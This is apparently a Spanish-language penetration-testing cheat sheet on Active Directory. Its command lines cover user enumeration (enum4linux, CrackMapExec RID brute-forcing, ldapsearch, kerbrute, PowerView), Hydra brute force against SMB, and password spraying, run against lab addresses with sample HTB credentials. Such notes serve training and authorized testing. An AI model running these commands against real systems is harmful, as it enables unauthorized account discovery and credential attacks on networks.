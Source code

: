 **enum4linux**
```bash
# Uso basico herramienta
enum4linux 10.10.10.100

# Output Formateado obteniendo usuarios con flag -U
enum4linux -U 10.10.10.100  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

**CrackMapExec**
```bash
# Una vez tenemos credenciales validas realizar RID-BruteForcing
crackmapexec smb 10.10.10.100 -u hazard -p 'stealth1agent' --rid-brute

# -- Unauthenticated -- Obtener usuarios mediante flag --users 
crackmapexec smb 10.10.10.100 --users

# -- Authenticated (Valid Credentials) -- 
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```

**ldapsearch**
```bash
ldapsearch -h 10.10.10.100 -x -b "DC=DOMAIN,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

**windapsearch**
```bash
./windapsearch.py --dc-ip 10.10.10.100 -u "" -U
```

**kerbrute**
```bash
kerbrute userenum -d domain.local --dc 10.10.10.100 /opt/jsmith.txt 
```
### FUERZA BRUTA SERVICIOS/PROTOCOLOS
**HYDRA**
```bash
hydra -l administrator -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.2.16.158 smb2
```
### BREACHING AD
#### [[PASSWORD SPRAYING]]
##### [[PASSWORD POLICIES ENUMERATION]]
##### PASSWORD SPRAYING FROM WINDOWS
**Importar Modulo Powerview | Enumeracion de usuarios de forma Local**
```powershell
# Importamos el modulo
. .\PowerView.ps1

# Obtenemos todos los usuarios del sistema de forma local
Get-DomainUser | Select-Object -ExpandProperty cn | Out-File users.txt

# Tambien existe esta manera para enumerar los de /domain
net user /domain
```
